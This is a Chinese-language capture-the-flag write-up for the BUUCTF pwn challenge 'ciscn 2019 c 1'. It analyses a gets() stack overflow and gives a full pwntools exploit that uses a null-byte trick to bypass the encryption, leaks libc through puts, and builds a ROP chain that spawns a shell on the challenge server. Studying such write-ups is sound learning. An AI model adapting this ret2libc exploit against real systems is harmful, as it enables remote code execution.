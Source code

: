 ```yaml
---
author: 
  name: Zephyr
title: ciscn 2019 c 1
date: 2022-3-19 21:02:02
permalink: /pages/2e9547494524d18c
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# ciscn 2019 c 1

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec ciscn_2019_c_1
[*] '/root/ciscn_2019_c_1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数未发现明显漏洞，漏洞出现在输入`1`后进入的`encrypt`函数中，该函数如下

```c
int encrypt()
{
    size_t v0;  // rbx
    char s[48]; // [rsp+0h] [rbp-50h]
    __int16 v3; // [rsp+30h] [rbp-20h]
    memset(s, 0, sizeof(s));
    v3 = 0;
    puts("Input your Plaintext to be encrypted");
    gets(s);
    while (1)
    {
        v0 = (unsigned int)x;
        if (v0 >= strlen(s))
            break;
        if (s[x] <= 96 || s[x] > 122)
        {
            if (s[x] <= 64 || s[x] > 90)
            {
                if (s[x] > 47 && s[x] <= 57)
                    s[x] ^= 0xFu;
            }
            else
            {
                s[x] ^= 0xEu;
            }
        }
        else
        {
            s[x] ^= 0xDu;
        }
        ++x;
    }
    puts("Ciphertext");
    return puts(s);
}
```

## 思路分析

1. 目前信息
   - 栈上变量`s`处可写入任意长度数据
   - 本题无后门函数
1. 问题
   - `s`变量处写入的数据将会被后续代码加密导致无法使用
3. 解决思路
   - 加密部分使用了`strlen`函数该函数从字符串的开头位置依次向后计数，直到遇见`\0`，然后返回计时器的值。最终统计的字符串长度不包括`\0`，这里可以构造一个特殊的首位是`\0`的`payload`提前`break`掉，从而绕过加密
   - 因为本题无可用后门函数，所以需要先泄露`libc`的版本和函数地址，接着再通过泄漏出的地址构造`rop`链劫持控制流以获得`shell`

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/ciscn_2019_c_1/ciscn_2019_c_1'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 28284)
elf = ELF(pwnfile)
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi_ret = 0x400c83
encrypt_addr = elf.symbols['encrypt']
padding = 0x50+8
io.recvuntil('Input your choice!\n')
io.sendline(str(1))
payload = flat(['\0', 'a'*(padding-1), pop_rdi_ret,puts_got, puts_plt, encrypt_addr])
# 首位\0绕过加密
io.sendlineafter('\n', payload)
leak_puts_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
# 泄漏puts的地址
print("leak puts addr:{0}".format(hex(leak_puts_addr)))
libc = LibcSearcher('puts', leak_puts_addr)
# 泄漏libc版本
libcbase = leak_puts_addr-libc.dump('puts')
system_addr = libcbase+libc.dump('system')
bin_sh_addr = libcbase+libc.dump('str_bin_sh')
ret = 0x4006b9
payload = flat(['\0', 'a'*(padding-1), ret,pop_rdi_ret, bin_sh_addr, system_addr])
io.sendlineafter('encrypted\n', payload)
io.recv()
io.interactive()
```